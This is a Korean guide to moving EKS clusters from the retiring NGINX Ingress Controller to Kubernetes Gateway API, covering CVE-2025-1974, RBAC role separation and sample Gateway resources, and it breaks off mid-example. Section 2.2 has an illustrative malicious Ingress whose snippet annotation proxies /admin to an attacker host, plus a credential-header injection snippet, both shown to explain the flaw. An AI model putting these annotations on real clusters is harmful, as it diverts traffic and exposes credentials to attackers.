







import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';
import GatewayApiBenefits from '@site/src/components/GatewayApiBenefits';
import {
  DocumentStructureTable,
  RiskAssessmentTable,
  ArchitectureComparisonTable,
  RoleSeparationTable,
  GaStatusTable,
  FeatureComparisonMatrix,
  SolutionOverviewMatrix,
  ScenarioRecommendationTable,
  FeatureMappingTable,
  DifficultyComparisonTable,
  AwsCostTable,
  OpenSourceCostTable,
  MigrationFeatureMappingTable,
  TroubleshootingTable,
  RouteRecommendationTable,
  RoadmapTimeline,
} from '@site/src/components/GatewayApiTables';

# Gateway API 도입 가이드

> **📌 기준 버전**: Gateway API v1.4.0, Cilium v1.19.0, EKS 1.32, AWS LBC v3.0.0, Envoy Gateway v1.7.0

> 📅 **작성일**: 2025-02-12 | ⏱️ **읽는 시간**: 약 25분

## 1. 개요

2026년 3월 NGINX Ingress Controller의 공식 EOL(End-of-Life)을 앞두고, Kubernetes Gateway API로의 전환이 선택이 아닌 필수가 되었습니다. 이 가이드는 Gateway API의 아키텍처 이해부터 5개 주요 구현체(AWS LBC v3, Cilium, NGINX Gateway Fabric, Envoy Gateway, kGateway) 비교, Cilium ENI 모드 심화 구성, 단계별 마이그레이션 실행 전략, 성능 벤치마크 계획까지 포괄합니다.

### 1.1 이 문서의 대상

- **NGINX Ingress Controller를 운영 중인 EKS 클러스터 관리자**: EOL 대응 전략 수립
- **Gateway API 마이그레이션을 계획 중인 플랫폼 엔지니어**: 기술 선정 및 PoC 수행
- **트래픽 관리 아키텍처 현대화를 검토 중인 아키텍트**: 장기 로드맵 설계
- **Cilium ENI 모드와 Gateway API 통합을 고려하는 네트워크 엔지니어**: eBPF 기반 고성능 네트워킹

### 1.2 문서 구성

<DocumentStructureTable />

:::info 읽기 전략
- **빠른 이해**: 섹션 1-3, 9 (약 10분)
- **기술 선정**: 섹션 1-5, 9 (약 20분)
- **전체 마이그레이션**: 전체 문서 (약 25분)
:::

---

## 2. NGINX Ingress Controller Retirement — 왜 전환이 필수인가

### 2.1 EOL 타임라인



**주요 이벤트 상세:**

- **2025년 3월**: IngressNightmare (CVE-2025-1974) 발견 — Snippets 어노테이션을 통한 임의 NGINX 설정 주입 취약점으로 Kubernetes SIG Network의 retirement 논의가 가속화됨
- **2025년 11월**: Kubernetes SIG Network에서 NGINX Ingress Controller의 공식 retirement 발표. 유지보수 인력 부족(1-2명의 메인테이너)과 Gateway API 성숙도를 주요 이유로 명시
- **2026년 3월**: 공식 EOL — 보안 패치 및 버그 수정 완전 중단. 이후 운영 환경 사용 시 컴플라이언스 위반 가능성

:::danger 필수 대응 사항
**2026년 3월 이후 NGINX Ingress Controller 사용 시 보안 취약점 패치가 제공되지 않습니다.** PCI-DSS, SOC 2, ISO 27001 등 보안 인증 유지를 위해서는 반드시 Gateway API 기반 솔루션으로 전환해야 합니다.
:::

### 2.2 보안 취약점 분석

**IngressNightmare (CVE-2025-1974) 공격 시나리오:**

<Tabs>
  <TabItem value="attack-overview" label="공격 개요" default>

  

  *Kubernetes 클러스터 내 Ingress NGINX Controller를 대상으로 한 비인증 원격 코드 실행(RCE) 공격 벡터. 외부 및 내부 공격자가 Malicious Admission Review를 통해 컨트롤러 Pod를 장악하고, 클러스터 내 전체 Pod에 접근 가능. (Source: [Wiz Research](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities))*

  </TabItem>
  <TabItem value="architecture" label="컨트롤러 아키텍처">

  

  *Ingress NGINX Controller Pod 내부 아키텍처. Admission Webhook이 설정 검증 과정에서 공격자의 악성 설정을 NGINX에 주입하는 경로가 CVE-2025-1974의 핵심 공격 표면. (Source: [Wiz Research](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities))*

  </TabItem>
  <TabItem value="exploit-code" label="공격 코드 예시">

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: malicious-ingress
  annotations:
    # 공격자가 임의의 NGINX 설정을 주입
    nginx.ingress.kubernetes.io/configuration-snippet: |
      location /admin {
        proxy_pass http://malicious-backend.attacker.com;
        # 인증 우회, 데이터 탈취, 백도어 설치 가능
      }
spec:
  ingressClassName: nginx
  rules:
  - host: production-api.example.com
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: production-service
            port:
              number: 80
```

  </TabItem>
</Tabs>

**위험도 평가:**

<RiskAssessmentTable />

:::warning 현재 운영 중이라면
기존 NGINX Ingress 환경에서는 `nginx.ingress.kubernetes.io/configuration-snippet` 및 `nginx.ingress.kubernetes.io/server-snippet` 어노테이션 사용을 즉시 금지하는 admission controller 정책 적용을 권장합니다.
:::

### 2.3 취약점의 구조적 해결을 위한 Gateway API 도입

Gateway API는 NGINX Ingress의 구조적 취약점을 근본적으로 해결합니다.

<ArchitectureComparisonTable />

<Tabs>
<TabItem value="nginx" label="❌ NGINX Ingress 취약점" default>

**1. Configuration Snippet 주입 공격**

NGINX Ingress는 annotations에 임의 문자열을 주입할 수 있어 심각한 보안 위험을 초래합니다:



```yaml
# ❌ NGINX Ingress — 임의 문자열 주입 가능
annotations:
  nginx.ingress.kubernetes.io/configuration-snippet: |
    # 인접 서비스의 자격 증명 탈취 가능 (CVE-2021-25742)
    proxy_set_header Authorization "stolen-token";
```

**2. 단일 리소스에 모든 권한 집중**

- Ingress 리소스 하나에 라우팅, TLS, 보안, 확장 설정이 혼재
- 어노테이션 단위 RBAC 분리가 불가능 — 전체 Ingress 권한 또는 무권한
- 개발자가 라우팅만 수정하려 해도 TLS/보안 설정 변경 권한까지 보유

**3. 벤더 어노테이션 의존**

- 표준에 없는 기능은 벤더 고유 어노테이션으로 추가 → **이식성 상실**
- 어노테이션 간 충돌 시 디버깅 어려움
- 100+ 벤더 어노테이션 관리 복잡성 증가

이러한 구조적 문제로 인해 NGINX Ingress는 프로덕션 보안 요구사항을 충족하기 어렵습니다.

</TabItem>
<TabItem value="gateway" label="✅ Gateway API 구조적 해결">

**1. 3-Tier 역할 분리로 Snippets 원천 차단**



각 팀은 자신의 권한 범위 내에서만 리소스를 관리 — 임의 설정 주입 경로가 원천 차단됩니다.

```yaml
# 인프라 팀: GatewayClass 관리 (클러스터 레벨 권한)
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: infrastructure-team
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gatewayclasses"]
  verbs: ["create", "update", "delete"]
---
# 플랫폼 팀: Gateway 관리 (네임스페이스 레벨 권한)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: platform-team
  namespace: platform-system
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gateways"]
  verbs: ["create", "update", "delete"]
---
# 애플리케이션 팀: HTTPRoute만 관리 (라우팅 규칙만 제어)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: app-team
  namespace: app-namespace
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["httproutes"]
  verbs: ["create", "update", "delete"]
```

**2. CRD 스키마 기반 구조적 검증**

OpenAPI 스키마로 모든 필드를 사전 정의하여 임의 설정 주입이 원천적으로 불가능합니다:



```yaml
# ✅ Gateway API — 스키마 검증된 필드만 사용
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
spec:
  rules:
  - matches:
    - path:
        type: PathPrefix
        value: /api
    filters:
    - type: RequestHeaderModifier  # 사전 정의된 필터만 사용 가능
      requestHeaderModifier:
        add:
        - name: X-Custom-Header
          value: production
```

**3. Policy Attachment 패턴으로 안전한 확장**

확장 기능을 별도의 Policy 리소스로 분리하여 RBAC으로 접근을 제어합니다:



```yaml
# Cilium의 CiliumNetworkPolicy로 L7 보안 정책 적용
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: api-rate-limiting
spec:
  endpointSelector:
    matchLabels:
      app: api-gateway
  ingress:
  - fromEndpoints:
    - matchLabels:
        role: frontend
    toPorts:
    - ports:
      - port: "80"
        protocol: TCP
      rules:
        http:
        - method: "GET"
          path: "/api/.*"
          rateLimit:
            requestsPerSecond: 100
```

</TabItem>
</Tabs>

:::info 활발한 커뮤니티 지원
- **15개 이상의 프로덕션 구현체**: AWS, Google Cloud, Cilium, Envoy, NGINX, Istio 등
- **분기별 정규 릴리스**: v1.4.0 기준 GA 리소스 포함
- **CNCF 공식 프로젝트**: Kubernetes SIG Network 주도 개발
:::

---

## 3. Gateway API — 차세대 트래픽 관리 표준

### 3.1 Gateway API 아키텍처


*출처: [Kubernetes Gateway API 공식 문서](https://gateway-api.sigs.k8s.io/) — 3개의 역할(Infrastructure Provider, Cluster Operator, Application Developer)이 각각 GatewayClass, Gateway, HTTPRoute를 관리*

:::tip 상세 비교
NGINX Ingress와 Gateway API의 아키텍처 비교는 [2.3 취약점의 구조적 해결을 위한 Gateway API 도입](#23-취약점의-구조적-해결을-위한-gateway-api-도입)에서 탭별로 확인할 수 있습니다.
:::

### 3.2 3-Tier 리소스 모델

Gateway API는 다음과 같은 계층 구조로 책임을 분리합니다:

<Tabs>
  <TabItem value="overview" label="역할 개요" default>

  

  *출처: [Kubernetes Gateway API 공식 문서](https://gateway-api.sigs.k8s.io/concepts/api-overview/) — GatewayClass → Gateway → xRoute → Service 계층 구조*

  <RoleSeparationTable />

  </TabItem>
  <TabItem value="infra" label="인프라 팀 (GatewayClass)">

  **인프라 팀: GatewayClass 전용 권한 (ClusterRole)**

  GatewayClass는 클러스터 스코프 리소스로, 인프라 팀만 생성/변경할 수 있습니다. 컨트롤러 선택과 전역 정책을 담당합니다.

  ```yaml
  apiVersion: rbac.authorization.k8s.io/v1
  kind: ClusterRole
  metadata:
    name: infrastructure-gateway-manager
  rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["gatewayclasses"]
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
  ```

  </TabItem>
  <TabItem value="platform" label="플랫폼 팀 (Gateway)">

  **플랫폼 팀: Gateway 관리 권한 (Role — 네임스페이스 스코프)**

  Gateway는 네임스페이스 스코프 리소스로, 플랫폼 팀이 리스너 구성, TLS 인증서, 로드밸런서 설정을 관리합니다.

  ```yaml
  apiVersion: rbac.authorization.k8s.io/v1
  kind: Role
  metadata:
    name: platform-gateway-manager
    namespace: gateway-system
  rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["gateways"]
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
  - apiGroups: [""]
    resources: ["secrets"]  # TLS 인증서 관리
    verbs: ["get", "list"]
  ```

  </TabItem>
  <TabItem value="app" label="앱 팀 (HTTPRoute)">

  **애플리케이션 팀: HTTPRoute만 관리 (Role — 네임스페이스 스코프)**

  애플리케이션 팀은 자신의 네임스페이스에서 HTTPRoute와 ReferenceGrant만 관리합니다. GatewayClass나 Gateway에는 접근할 수 없습니다.

  ```yaml
  apiVersion: rbac.authorization.k8s.io/v1
  kind: Role
  metadata:
    name: app-route-manager
    namespace: production-app
  rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["httproutes", "referencegrants"]
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
  - apiGroups: [""]
    resources: ["services"]
    verbs: ["get", "list"]
  ```

  </TabItem>
</Tabs>

### 3.3 GA 현황 (v1.4.0)

Gateway API는 Standard Channel과 Experimental Channel로 나뉘며, 리소스별 성숙도가 다릅니다:

<GaStatusTable />

:::warning Experimental 채널 주의사항
Alpha 상태의 리소스는 **API 호환성 보장이 없으며**, 마이너 버전 업그레이드 시 필드 변경 또는 삭제 가능성이 있습니다. 프로덕션 환경에서는 Standard 채널의 GA/Beta 리소스만 사용하는 것을 권장합니다.
:::

### 3.4 핵심 이점

Gateway API의 6가지 핵심 이점을 시각적 다이어그램과 YAML 예제로 살펴봅니다.

<GatewayApiBenefits />

### 3.5 기본 리소스 예제

실제 프로덕션 환경에서 사용하는 Gateway API 리소스 배포 순서입니다:

<Tabs>
  <TabItem value="overview" label="배포 흐름도" default>



Gateway API 리소스는 역할별로 분리 배포됩니다. 인프라 팀이 GatewayClass를, 플랫폼 팀이 Gateway를, 앱 팀이 HTTPRoute를 각각 관리합니다.

  </TabItem>
  <TabItem value="step1" label="Step 1: GatewayClass">

**GatewayClass 정의 (인프라 팀)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: GatewayClass
metadata:
  name: aws-network-load-balancer
spec:
  controllerName: aws.gateway.networking.k8s.io
  description: "AWS Network Load Balancer with PrivateLink support"
  parametersRef:
    group: elbv2.k8s.aws
    kind: TargetGroupPolicy
    name: nlb-performance-profile
```

  </TabItem>
  <TabItem value="step2" label="Step 2: Gateway">

**Gateway 생성 (플랫폼 팀)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  namespace: gateway-system
  annotations:
    # AWS NLB 전용 어노테이션
    service.beta.kubernetes.io/aws-load-balancer-type: "nlb"
    service.beta.kubernetes.io/aws-load-balancer-scheme: "internet-facing"
    service.beta.kubernetes.io/aws-load-balancer-cross-zone-load-balancing-enabled: "true"
    service.beta.kubernetes.io/aws-load-balancer-nlb-target-type: "ip"
spec:
  gatewayClassName: aws-network-load-balancer
  listeners:
  # HTTP Listener (자동 HTTPS 리다이렉트)
  - name: http
    protocol: HTTP
    port: 80

  # HTTPS Listener (ACM 인증서)
  - name: https
    protocol: HTTPS
    port: 443
    tls:
      mode: Terminate
      certificateRefs:
      - kind: Secret
        name: acm-certificate
        namespace: gateway-system
    allowedRoutes:
      namespaces:
        from: All  # 모든 네임스페이스의 HTTPRoute 허용
```

  </TabItem>
  <TabItem value="step3" label="Step 3: HTTPRoute">

**HTTPRoute 설정 (애플리케이션 팀)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: backend-api
  namespace: production-app
spec:
  parentRefs:
  - name: production-gateway
    namespace: gateway-system
    sectionName: https

  hostnames:
  - "api.example.com"

  rules:
  # Canary 배포 (90% v1, 10% v2)
  - matches:
    - path:
        type: PathPrefix
        value: /api
    backendRefs:
    - name: backend-v1
      port: 8080
      weight: 90
    - name: backend-v2
      port: 8080
      weight: 10

    filters:
    # 헤더 추가
    - type: RequestHeaderModifier
      requestHeaderModifier:
        add:
        - name: X-Backend-Version
          value: canary

    # URL Rewrite
    - type: URLRewrite
      urlRewrite:
        path:
          type: ReplacePrefixMatch
          replacePrefixMatch: /v1/api
```

  </TabItem>
  <TabItem value="step4" label="Step 4: ReferenceGrant">

**ReferenceGrant (크로스 네임스페이스 참조)**

```yaml
# gateway-system 네임스페이스의 Gateway를 다른 네임스페이스에서 참조 허용
apiVersion: gateway.networking.k8s.io/v1beta1
kind: ReferenceGrant
metadata:
  name: allow-httproutes-from-all
  namespace: gateway-system
spec:
  from:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    namespace: production-app
  to:
  - group: gateway.networking.k8s.io
    kind: Gateway
    name: production-gateway
```

  </TabItem>
  <TabItem value="step5" label="Step 5: 검증">

**배포 및 검증**

```bash
# 리소스 배포
kubectl apply -f gatewayclass.yaml
kubectl apply -f gateway.yaml
kubectl apply -f referencegrant.yaml
kubectl apply -f httproute.yaml

# Gateway 상태 확인
kubectl get gateway production-gateway -n gateway-system
# NAME                  CLASS                        ADDRESS          PROGRAMMED   AGE
# production-gateway    aws-network-load-balancer    a1b2c3.elb.aws   True         5m

# HTTPRoute 상태 확인
kubectl get httproute backend-api -n production-app
# NAME          HOSTNAMES              AGE
# backend-api   ["api.example.com"]    2m

# Gateway 주소 확인
kubectl get gateway production-gateway -n gateway-system \
  -o jsonpath='{.status.addresses[0].value}'

# 트래픽 테스트 (Canary 비율 확인)
for i in {1..100}; do
  curl -s https://api.example.com/api/health | jq -r '.version'
done | sort | uniq -c
# 출력 예시:
#   90 v1
#   10 v2
```

  </TabItem>
</Tabs>

:::tip 네이티브 Canary 배포
Gateway API는 `weight` 필드를 통해 어노테이션 없이 Canary 배포를 지원합니다. NGINX Ingress의 `nginx.ingress.kubernetes.io/canary` 어노테이션 조합보다 간결하고 이식성이 높습니다.
:::

## 4. GAMMA Initiative — 서비스 메시 통합의 미래

GAMMA(Gateway API for Mesh Management and Administration)에 대한 상세 내용은 별도 문서로 분리되었습니다.

:::tip 상세 가이드
**[GAMMA Initiative — 서비스 메시 통합의 미래](/docs/infrastructure-optimization/gateway-api-adoption-guide/gamma-initiative)**에서 다음 내용을 확인할 수 있습니다:
- GAMMA 개요 및 East-West 트래픽 관리
- 서비스 메시 통합 아키텍처
- 구현체별 GAMMA 지원 현황
:::

---

## 5. Gateway API 구현체 비교 - AWS Native vs Open Source

이 섹션에서는 5가지 주요 Gateway API 구현체를 상세히 비교합니다. 각 솔루션의 특징, 강점, 약점을 파악하여 조직에 최적의 선택을 할 수 있도록 돕습니다.

### 5.1 솔루션 개요 비교

다음 매트릭스는 5가지 Gateway API 구현체의 핵심 특징, 제약사항, 적합한 사용 사례를 비교합니다.

<SolutionOverviewMatrix />

### 5.2 기능 비교 매트릭스

다음은 5가지 솔루션의 종합 비교표입니다. 이 표를 통해 각 솔루션의 강점과 약점을 한눈에 파악할 수 있습니다.

<FeatureComparisonMatrix />

### 5.3 NGINX 기능 매핑

NGINX Ingress Controller에서 사용하던 8가지 주요 기능을 각 Gateway API 구현체에서 어떻게 구현하는지 비교합니다.

<FeatureMappingTable />

**범례**:
- ✅ 네이티브 지원 (별도 도구 불필요)
- ⚠️ 부분 지원 또는 추가 설정 필요
- ❌ 미지원 (별도 솔루션 필요)

### 5.4 구현 난이도 비교

<DifficultyComparisonTable />

### 5.5 비용 영향 분석

#### AWS Native 추가 비용

<AwsCostTable />

#### 오픈소스 추가 비용

<OpenSourceCostTable />

:::tip 비용 최적화 팁
AWS WAF가 필요한 기능(IP Allowlist, Rate Limiting, Body Size)이 3개 이상이면 AWS Native가 WAF 비용 대비 효율적입니다. 1-2개만 필요하면 오픈소스 솔루션에서 무료로 구현할 수 있습니다.
:::

### 5.6 기능별 구현 코드 예제

#### 1. 인증 (Basic Auth 대체)

<Tabs>
<TabItem value="aws" label="AWS Native" default>

```yaml
# AWS LBC v3의 네이티브 JWT 검증
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: jwt-protected-route
  namespace: production
spec:
  parentRefs:
    - name: production-gateway
